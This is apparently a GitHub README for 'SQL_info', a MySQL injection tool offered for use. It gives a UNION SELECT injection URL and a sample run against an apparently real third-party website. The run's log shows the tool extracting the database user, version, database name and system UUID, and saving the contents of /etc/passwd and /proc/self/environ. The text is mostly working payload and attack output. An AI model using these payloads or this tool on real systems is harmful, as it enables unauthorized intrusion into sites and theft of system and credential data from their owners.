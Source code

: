 # SQL_info
Information Gathering with SQL injection<br>

 ..::==  This Tool Just For N00Bs like YoU =)  ==::.. 

 SQLinfo ver 0.1 
 - This Tool is for information gathering from SQL server targets(MySQL)

	===========
	----=# Info Gathering with SQLi     
	----=# Version: 0.1
	----=# Author : SajjadBnd (Biskoit Pedar)
	----=# Email  : blackwolf@post.com
	----=# Github : http://github.com/Blackwolf-Iran 
	===========


  Example Link : http://site.com/news.php?id=-1 union select 1,2,3,4-- -


[.] Insert Link > http://www.pksuite.it/mobile/it/news_page.php?id=-171%27+UNION+SELECT+1,2,3,4,5,6,7,8--+
[.] Insert vulnerable column > 3

-----------------[Scan Started]-----------------------

[*] SQLifo Started At > [Tuesday 09. January 2018 - 21:23:12]

[+][21:23:13] Checking Connection :  200 [ok]

[+][21:23:17] Fetching Username ...

[+][21:23:20] User/Host Name :   [u'mdagata@localhost'] 

[+][21:23:20] Fetching Version ...

[+][21:23:23] Version :   [u'5.1.73'] 

[+][21:23:23] Fetching Database Name ...

[+][21:23:25] DATABASE :   [u'pksuite_db'] 

[+][21:23:25] Fetching CONNECTION_ID ...

[+][21:23:27] CONNECTION_ID :   [u'64330'] 

[+][21:23:27] Fetching Hostname ...

[+][21:23:29] Hostname :   [] 

[+][21:23:29] Fetching Tmp_Dir ...

[+][21:23:32] Tmp Dir :   [] 

[+][21:23:32] Fetching DataDire ...

[+][21:23:34] data dir :   [] 

[+][21:23:34] Fetching Base Dir ...

[+][21:23:36] Base Dir :   [] 

[+][21:23:36] Fetching System UUID Key ...

[+][21:23:39] SYSTEM UUID Key :   [u'5ba9e3f0-f583-11e7-b8ff-000c291ea817'] 

[+][21:23:39] Fetching System User ...

[+][21:23:41] SYSTEM User :   [u'mdagata@localhost'] 

[+][21:23:41] Fetching Session User ...

[+][21:23:43] Sesion User :   [u'mdagata@localhost'] 

[+][21:23:43] Check if Symlink Enabled or Disabled ...

[+][21:23:45] Symlink :   [u'DISABLED'] 

[+][21:23:45] Checking SSL ...

[+][21:23:47] SSL :   [u'DISABLED'] 

[+][21:23:47] READING /etc/passwd ...

[+][21:23:50] File /etc/passwd :  Saved ! passwd.html - Check it =) 

[+][21:23:50] READING /proc/self/environ ...

[+][21:23:52] File proc/self/environ : Saved ! environ.html - Check it =) 


 [+] Good Bye !
 [+] SQLinfo [Tuesday 09. January 2018 - 21:23:52]

   Exiting ... !
   
#################################################################

@SajjadBND
Enjoy it ! =)
